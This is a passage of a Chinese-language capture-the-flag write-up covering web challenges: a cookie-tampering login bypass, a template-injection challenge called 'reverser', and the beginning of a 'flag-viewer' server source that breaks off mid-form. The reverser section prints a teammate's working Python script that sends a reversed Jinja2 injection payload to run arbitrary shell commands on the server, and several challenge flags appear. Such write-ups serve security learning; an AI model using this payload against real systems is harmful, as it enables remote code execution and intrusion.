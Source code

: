 > My new website uses cookies for authentication. Now nobody can get in! [secure-page.mc.ax](https://secure-page.mc.ax/)

![image-20220723122949072](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207231229716.png?x-oss-process=hzy)

改成true![image-20220723123105053](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207231231132.png?x-oss-process=hzy)

hope{signatures_signatures_signatures}

## **reverser**

> An extremely useful tool. Hope there aren't issues with the server-side templating...
>
> The flag is in a file with an unknown name.

考察ssti，但是一直报错

队友的脚本，贴一下

```
import requests
url = "https://reverser.mc.ax/"
while (1):
    cmd = input(">")
    payload = r"""{{[].__class__.__bases__[0].__subclasses__()[133].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('"""
    payload += cmd
    payload += r"""').read()")}}"""
    print(requests.post(url, data={'text':payload[::-1]}).text)

```

![image-20220723161317272](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207231613332.png?x-oss-process=hzy)

hope{cant_misuse_templates}

## **flag-viewer**



![image-20220723162608201](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202207231626273.png?x-oss-process=hzy)

主要代码如下

```
import os
import random

from server import Server

server = Server()

@server.get('/')
async def root(request):
    return (200, '''
        <title>Flag Viewer</title>
        <link rel="stylesheet" href="/style.css" />
        <div class="container">
            <h1>The Flag Viewer</h1>
            <form action="/flag" method="POST">
                <input
                    type="text"
                    name="user"
                    placeholder="Username"
                    pattern="^(?!admin).*$"
                    oninvalid="this.setCustomValidity('Name not allowed!')"
```